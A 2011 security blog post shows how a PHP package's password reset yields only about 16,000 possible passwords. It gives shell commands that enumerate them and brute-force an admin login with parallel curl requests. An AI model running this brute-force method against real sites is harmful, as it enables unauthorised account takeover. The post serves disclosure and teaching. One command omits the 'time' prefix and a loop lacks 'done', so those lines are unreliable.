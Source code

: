 ```yaml
---
id: 1059
title: 'Hacking crappy password resets (part 2)'
date: '2011-03-15T08:09:41-05:00'
author: 'Ron Bowes'
layout: post
guid: 'http://www.skullsecurity.org/blog/?p=1059'
permalink: /2011/hacking-crappy-password-resets-part-2
categories:
    - Hacking
    - Passwords
    - Tools
---
```


Hey,

In my [last post](/blog/2011/hacking-crappy-password-resets-part-1), I showed how we could guess the output of a password-reset function with a million states. While doing research for that, I stumbled across some software that had a mere 16,000 states. I will show how to fully compromise this software package remotely using the password reset.

## The code

First, let's take a look at the code:

```

<font color="#ffa500"><?php</font><br></br>
  <font color="#ffff60"><b>if</b></font> <font color="#ffa500">(</font><font color="#40ffff">strtolower</font><font color="#ffa500">(</font><font color="#ffff60"><b>$</b></font><font color="#40ffff">cfgrow</font><font color="#ffa500">[</font>'<font color="#ffa0a0">email</font>'<font color="#ffa500">])</font><font color="#ffff60"><b>==</b></font><font color="#40ffff">strtolower</font><font color="#ffa500">(</font><font color="#ffff60"><b>$</b></font><font color="#40ffff">_POST</font><font color="#ffa500">[</font>'<font color="#ffa0a0">reminderemail</font>'<font color="#ffa500">]))</font><br></br>
  <font color="#ffa500">{</font><br></br>
    <font color="#80a0ff">// generate a random new pass</font><br></br>
    <font color="#ffff60"><b>$</b></font><font color="#40ffff">user_pass</font> <font color="#ffff60"><b>=</b></font> <font color="#40ffff">substr</font><font color="#ffa500">(</font> <font color="#40ffff">MD5</font><font color="#ffa500">(</font>'<font color="#ffa0a0">time</font>' <font color="#ffff60"><b>.</b></font> <font color="#40ffff">rand</font><font color="#ffa500">(</font><font color="#ffa0a0">1</font>, <font color="#ffa0a0">16000</font><font color="#ffa500">))</font>, <font color="#ffa0a0">0</font>, <font color="#ffa0a0">6</font><font color="#ffa500">)</font>;<br></br>
    <font color="#ffff60"><b>$</b></font><font color="#40ffff">query</font> <font color="#ffff60"><b>=</b></font> "<font color="#ffa0a0">update config set password=MD5('</font><font color="#ffff60"><b>$</b></font><font color="#40ffff">user_pass</font><font color="#ffa0a0">') where [...]</font>"<br></br>
    <font color="#ffff60"><b>if</b></font><font color="#ffa500">(</font><font color="#40ffff">mysql_query</font><font color="#ffa500">(</font><font color="#ffff60"><b>$</b></font><font color="#40ffff">query</font><font color="#ffa500">))</font><br></br>
    <font color="#ffa500">{</font><br></br>
       <font color="#80a0ff">// ...</font><br></br>
<font color="#ffa500">?></font><br></br>
```

## The vulnerability

The vulnerability lies in the password generation:

```
    <font color="#ffff60"><b>$</b></font><font color="#40ffff">user_pass</font> <font color="#ffff60"><b>=</b></font> <font color="#40ffff">substr</font><font color="#ffa500">(</font> <font color="#40ffff">MD5</font><font color="#ffa500">(</font>'<font color="#ffa0a0">time</font>' <font color="#ffff60"><b>.</b></font> <font color="#40ffff">rand</font><font color="#ffa500">(</font><font color="#ffa0a0">1</font>, <font color="#ffa0a0">16000</font><font color="#ffa500">))</font>, <font color="#ffa0a0">0</font>, <font color="#ffa0a0">6</font><font color="#ffa500">)</font>;<br></br>
```

The new password generated is the md5() of the literal string 'time' (\*not\* the current time, the \*word\* "time") concatenated with one of 16,000 random numbers, then truncated to 6 bytes. We can very easily generate the complete password list on the commandline:

```
$ seq <font color="#ffa0a0">1</font> <font color="#ffa0a0">16000</font> | xargs <font color="#ffa500">-I</font> XXX sh <font color="#ffa500">-c</font> <font color="#ffff60"><b>"</b></font><font color="#ffa0a0">echo timeXXX | md5sum | cut -b1-6</font><font color="#ffff60"><b>"</b></font>
```

or, another way:

```
$ <font color="#ffff60"><b>for </b></font>i <font color="#ffff60"><b>in</b></font> <font color="#ffa500">`seq </font><font color="#ffa0a0">1</font><font color="#ffa500"> </font><font color="#ffa0a0">16000</font><font color="#ffa500">`</font>; <font color="#ffff60"><b>do</b></font> <font color="#ffff60"><b>echo</b></font><font color="#ffa0a0"> </font><font color="#ffff60"><b>"</b></font><font color="#ffa0a0">time</font><font color="#ff80ff">$i</font><font color="#ffff60"><b>"</b></font><font color="#ffa0a0"> </font><font color="#ffff60"><b>|</b></font> md5sum <font color="#ffff60"><b>|</b></font> cut -b1<font color="#ffa0a0">-6</font><br></br>
```

(By the way, for more information on using xargs, check out a really awesome blog posting called [Taco Bell Programming](http://teddziuba.com/2010/10/taco-bell-programming.html) - it's like real programming, but you can't legally call it "beef")

In either case, you'll wind up with 16,000 different passwords in a file. If you want to speed up the eventual bruteforce, you can eliminate collisions:

```
$ seq 1 16000 | xargs -I XXX sh -c "echo XXX | md5sum | cut -b1-6" | sort | uniq
```

If you do that, you'll wind up with 15,993 different passwords, ranging from '000b64' to 'fffcc0'. Now all that's left is to try these 15,993 passwords against the site!

## The attack

You can do this attack any number of ways. You can script up some Perl/Ruby/PHP, you can use a scanner like Burp Suite, or, if you're feeling really adventurous, you can write a quick config file for [http-enum.nse](http://nmap.org/svn/scripts/http-enum.nse). If anybody takes the time to replicate this with http-enum.nse, you'll win an Internet from me. I promise.

But why bother with all these complicated pieces of software when we have bash handy? All we need to do is try all 15,993 passwords using wget/curl/etc and look for the one page that's different. Done!

So, to download a single page, we'd use:

```
$ curl <font color="#ffa500">-s</font> <font color="#ffa500">-o</font> XXX.out <font color="#ffa500">-d</font> <font color="#ffff60"><b>"</b></font><font color="#ffa0a0">user=admin&password=XXX</font><font color="#ffff60"><b>"</b></font> <font color="#ffff60"><b><</b></font>site<font color="#ffff60"><b>></b></font>/admin/?<font color="#40ffff">x</font>=login<br></br>
```

This will create a file called XXX.out on the filesystem, which is the output from a login attempt with the password XXX. Now we use xargs to do that for every password:

```
$ cat passwords.txt | xargs <font color="#ffa500">-P32</font> <font color="#ffa500">-I</font> XXX curl <font color="#ffa500">-s</font> <font color="#ffa500">-o</font> XXX.out <font color="#ffff60"><b>\</b></font><br></br>
  <font color="#ffa500">-d</font> <font color="#ffff60"><b>"</b></font><font color="#ffa0a0">user=admin&password=XXX</font><font color="#ffff60"><b>"</b></font> <font color="#ffff60"><b><</b></font>site<font color="#ffff60"><b>></b></font>/admin/?<font color="#40ffff">x</font>=login<br></br>
```

Which will, in 32 parallel processes, attempt to log in with each password and write the result to a file named <password>.out. Now all we have to do figure out which one's different! After waiting for it to finish (or not.. it takes about 5-10 minutes), I check the folder:

```
$ md5sum *.out | head 
96ffbb1ba380de9fc9e7a3fe316ff631  000176.out
96ffbb1ba380de9fc9e7a3fe316ff631  0014c2.out
96ffbb1ba380de9fc9e7a3fe316ff631  001e7e.out
96ffbb1ba380de9fc9e7a3fe316ff631  002035.out
96ffbb1ba380de9fc9e7a3fe316ff631  00217c.out
96ffbb1ba380de9fc9e7a3fe316ff631  002c47.out
96ffbb1ba380de9fc9e7a3fe316ff631  003b9e.out
96ffbb1ba380de9fc9e7a3fe316ff631  004bff.out
96ffbb1ba380de9fc9e7a3fe316ff631  0057b8.out
96ffbb1ba380de9fc9e7a3fe316ff631  008dea.out
```

Sure enough, it's tried all the passwords and they all seemed to download the same page! Now we use grep -v to find the one and only download that's different:

```
$ md5sum *.out | grep -v 96ffbb1ba380de9fc9e7a3fe316ff631
d41d8cd98f00b204e9800998ecf8427e  b19261.out
```

And bam! We now know the password is "b19261".

## Conclusion

So there you have it - abusing a password reset to log into an account you shouldn't. And remember, even though we didn't test this with 1,000,000 possible passwords like last week's blog, it would only take about 60 times as long - so instead of a few minutes, it'd be a few hours. And as I said last week, that million-password reset form was actually pretty common.

And in case you think this is hocus pocus or whatever, I wrote the code shown here live, on stage, at Winnipeg Code Camp. It's towards the end of [my talk](http://vimeo.com/20718776).